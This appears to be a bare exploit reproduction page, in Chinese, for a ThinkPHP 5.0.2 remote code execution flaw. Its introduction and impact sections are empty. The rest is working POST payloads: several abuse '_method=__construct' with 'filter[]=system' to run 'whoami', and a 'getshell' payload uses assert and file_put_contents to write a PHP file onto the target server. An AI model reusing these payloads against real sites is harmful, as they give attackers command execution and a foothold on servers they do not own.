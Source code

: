 Thinkphp 5.0.2
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system

    aaaa=whoami&_method=__construct&method=GET&filter[]=system

    _method=__construct&method=GET&filter[]=system&get[]=whoami

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

